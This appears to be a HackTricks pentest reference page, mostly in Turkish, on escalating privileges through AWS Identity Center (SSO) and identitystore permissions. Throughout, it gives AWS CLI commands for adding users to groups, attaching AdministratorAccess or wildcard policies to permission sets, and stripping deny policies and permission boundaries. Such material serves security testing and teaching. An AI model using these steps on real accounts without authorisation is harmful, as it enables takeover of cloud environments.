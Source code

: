 # AWS - SSO & identitystore Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## AWS Identity Center / AWS SSO

AWS Identity Center / AWS SSO hakkında daha fazla bilgi için bakınız:

{{#ref}}
../../aws-services/aws-iam-enum.md
{{#endref}}

> [!WARNING]
> Varsayılan olarak, yalnızca **Management Account**'tan izinlere sahip **kullanıcılar** IAM Identity Center'a erişip **kontrol edebilecektir**.\
> Diğer hesaplardaki kullanıcılar bunu yalnızca hesap **Delegated Adminstrator.** ise yapabilir.\
> [Check the docs for more info.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)

### ~~Reset Password~~

Bu tür durumlarda kolay bir şekilde escalate privileges elde etmenin yolu, kullanıcı şifrelerini sıfırlamaya izin veren bir izne sahip olmaktır. Ne yazık ki, şifre sıfırlama için yalnızca kullanıcıya bir e-posta göndermek mümkün olduğundan, kullanıcının e-postasına erişiminiz olması gerekir.

### `identitystore:CreateGroupMembership`

Bu izin ile bir kullanıcıyı bir gruba eklemek mümkün olur; böylece kullanıcı grup tarafından sahip olunan tüm izinleri devralır.
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Bu izne sahip bir saldırgan, kontrolündeki bir kullanıcıya verilen bir Permission Set'e ek izinler verebilir
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Bu izne sahip bir saldırgan, kendisinin kontrolü altındaki bir kullanıcıya atanan bir Permission Set'e ek izinler verebilir.
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Bu izne sahip bir saldırgan, kontrolü altındaki bir kullanıcıya verilen bir Permission Set'e ekstra izinler verebilir.

> [!WARNING]
> Bu izinleri bu durumda kötüye kullanmak için etkilenecek hesapların TAMAMINDA bulunan bir **customer managed policy'nin adını** bilmeniz gerekir.
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:CreateAccountAssignment`

Bu izne sahip bir saldırgan, kontrolündeki bir kullanıcıya bir hesap için Permission Set atayabilir.
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
### `sso:GetRoleCredentials`

Kullanıcıya atanmış belirli bir rol adı için STS kısa süreli kimlik bilgilerini döndürür.
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
Ancak, nasıl elde edileceğini bilmediğim bir access token'a ihtiyacınız var (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Bu izne sahip bir saldırgan, belirtilen permission set ile bir AWS managed policy arasındaki ilişkiyi kaldırabilir. Daha fazla yetki, **detaching a managed policy (deny policy)** yoluyla verilebilir.
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Bu izne sahip bir saldırgan, belirtilen permission set ile bir Customer managed policy arasındaki ilişkiyi kaldırabilir. Daha fazla ayrıcalık **detaching a managed policy (deny policy)** yoluyla verilebilir.
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
### `sso:DeleteInlinePolicyFromPermissionSet`

Bu izne sahip bir saldırgan, permission set içindeki bir inline policy'den izinleri kaldırabilir. Bir inline policy'yi (deny policy) ayırarak **daha fazla ayrıcalık sağlanabilir**.
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
### `sso:DeletePermissionBoundaryFromPermissionSet`

Bu izne sahip bir saldırgan, Permission Boundary'i Permission Set'ten kaldırabilir. Permission Boundary tarafından verilen Permission Set üzerindeki kısıtlamaları kaldırarak **daha fazla ayrıcalık verilebilir**.
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{{#include ../../../../banners/hacktricks-training.md}}
